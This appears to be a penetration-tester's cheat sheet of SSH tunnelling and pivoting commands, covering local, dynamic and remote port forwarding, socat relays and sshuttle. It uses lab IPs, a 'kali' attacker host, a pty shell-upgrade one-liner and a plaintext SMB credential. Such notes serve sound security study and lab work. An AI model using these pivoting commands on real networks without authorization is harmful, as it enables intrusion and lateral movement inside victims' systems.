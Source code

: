  SSH - Tunneling Protocol
### Local Port Forwarding

A local port forward can be set up using OpenSSH's **-L** option, which takes two sockets (in the format IPADDRESS:PORT) separated with a colon as an argument (e.g. IPADDRESS:PORT:IPADDRESS:PORT). The first socket is the listening socket that will be bound to the SSH client machine. The second socket is where we want to forward the packets to. The rest of the SSH command is as usual - pointed at the SSH server and user we wish to connect as.

python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -L 0.0.0.0:4455:172.16.188.217:445 database_admin@10.4.188.215

smbclient -p 4455 -L //192.168.188.63/ -U hr_admin --password=Welcome1234

### Dynamic Port Forwarding

ssh -N -D 0.0.0.0:9999 database_admin@10.4.242.215

use with proxychains

### Remote Port Forwarding


ssh -N -R 127.0.0.1:4444:10.4.188.215:4444 kali@192.168.45.181

### Remote Dynamic Port Forwarding

ssh -N -R 9998 kali@192.168.45.181

### sshuttle

socat TCP-LISTEN:2222,fork TCP:10.4.242.215:22
sshuttle -r database_admin@192.168.242.63:2222 10.4.242.0/24 172.16.242.0/24